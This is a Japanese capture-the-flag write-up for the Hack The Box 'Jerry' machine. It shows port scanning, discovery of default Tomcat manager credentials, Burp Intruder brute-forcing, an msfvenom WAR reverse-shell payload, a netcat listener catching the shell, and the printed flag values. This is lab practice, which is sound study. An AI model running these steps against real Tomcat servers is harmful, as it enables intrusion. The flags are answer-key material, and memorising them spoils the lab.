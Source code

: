 https://app.hackthebox.com/machines/Jerry
## STEP 1
tcp8080番がオープン  
また、有効なデフォルトクレデンシャルを発見した
```sh
└─$ rustscan -a 10.129.136.9 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
TreadStone was here 

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.136.9:8080
10.129.136.9 -> [8080]
```
```sh
└─$ nmap -n -Pn -p8080 -sV --script=http-default-accounts 10.129.136.9
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-25 10:47 EDT
Nmap scan report for 10.129.136.9
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|_    tomcat:s3cret
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.50 seconds
```

## STEP 2
8080番にアクセス  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_01.png">
サイト右上の「manager app」をクリックするとbasic認証が要求される  
nmapの結果から確認できるデフォルトクレデンシャルでログインできた  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_02.png">  
いちお`burp suite`でもブルートフォースをやってみる  
basic認証を使用しているので、クレデンシャルがbase64でエンコードされてる  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_03.png">
burp suiteのproxyで確認できる通信を、intruderでいじる  
「payload configuration」にリストをpasteし、「payload proccessing」の「base64-encode」で各クレデンシャルをエンコード
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_04.png">  
「start attacks」で攻撃を開始すると、httpステータスコード200のクレデンシャルを確認できる  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_05.png">


## STEP 3
「manager app」にログイン  
warファイルをdeployできるので、war形式のペイロードをアップロードする  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_06.png">  
war形式のペイロード作成
```sh
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4444 -f war -o shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
Saved as: shell.war
```
ペイロードをデプロイ  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_07.png">  
デプロイしたペイロードが追加されていることがわかる  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Jerry_08.png">  
デプロイしたペイロードにhttpアクセスして、ペイロードを実行
```sh
└─$ curl http://10.129.136.91:8080/shell/
```
リバースシェル取得  
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.136.9] 49153
Microsoft Windows [Version 6.3.9600
(c) 2013 Microsoft Corporation.  All rights reserved.

c:\apache-tomcat-7.0.88>cat 'C:\Users\administrator\desktop\flags\2 for the price of 1.txt'
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
